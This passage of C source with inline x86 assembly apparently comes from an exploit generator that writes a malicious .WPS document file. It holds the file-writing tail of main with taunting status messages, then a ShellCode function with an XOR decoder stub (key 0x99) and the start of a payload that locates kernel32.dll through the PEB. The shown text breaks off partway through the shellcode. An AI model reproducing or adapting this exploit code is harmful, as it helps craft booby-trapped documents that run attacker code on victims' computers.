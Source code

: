  fwrite( szBuffer, 1, sizeof( szBuffer) , f );
 fclose( f );
 printf("[+] .WPS file succesfully created!
");
 printf("[+]Mika is telling you:don't play with fire!^_^
");
 return 0;
}

// ShellCode function
void ShellCode()
{
 __asm
 {
 PROC_BEGIN // C macro to begin proc
//--------------------------------------------------------------------
//
// DeCode
//
//--------------------------------------------------------------------
 jmp short decode_end

decode_start:
 pop ebx // Decode start addr (esp -> ebx)
 dec ebx
 xor ecx,ecx
 mov cl,0xFF // Decode len

 decode_loop:
 xor byte ptr [ebx+ecx],0x99 // Decode key
 loop decode_loop
 jmp short decode_ok

decode_end:
 call decode_start

decode_ok:

//--------------------------------------------------------------------
//
// ShellCode
//
//--------------------------------------------------------------------
 jmp sc_end

sc_start:
 pop edi // Hash string start addr (esp -> edi)

 // Get kernel32.dll base addr
 mov eax, fs:0x30 // PEB
 mov eax, [eax+0x0c] // PROCESS_MODULE_INFO
 mov esi, [eax+0x1c] // InInitOrder.flink
 lodsd // eax = InInitOrder.blink
 mov ebp, [eax+8] // ebp = kernel32.dll base address
